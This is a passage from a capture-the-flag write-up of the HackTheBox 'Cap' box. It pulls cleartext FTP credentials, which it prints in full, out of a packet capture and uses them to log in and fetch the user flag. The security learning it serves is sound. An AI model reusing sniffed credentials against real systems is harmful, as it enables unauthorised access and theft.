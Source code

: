 Analyzing its content using Wireshark, started analyzing the conversation statistics (*Statistics* > *Conversations*), we can see below, having 3 HTTP conversations (80/TCP) and one FTP (21/TCP)

![HTB Cap - PCAP Statistics](https://i.imgur.com/XR922yh.png){: .align-center}

Analyzing each TCP Stream the most interesting one was the last (stream 3) which, in this FTP communication, we can see the credentials provided for user **nathan** and the retrieved file `notes.txt`, that could contain important information to us during this box resolution

> nathan:Buck3tH4TF0RM3!

![HTB Cap - PCAP FTP Stream](https://i.imgur.com/DQHsTTw.png){: .align-center}

## Initial access and User flag

Using the observed credentials, was able to connect to FTP and surprisingly the root directory is at the user's home directory, where I was able to retrieve the `user.txt` file and read the flag

```bash
$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:zurc): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Aug 11 16:25 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (358.0729 kB/s)
ftp> exit
221 Goodbye.

$ cat user.txt
<redacted>
```
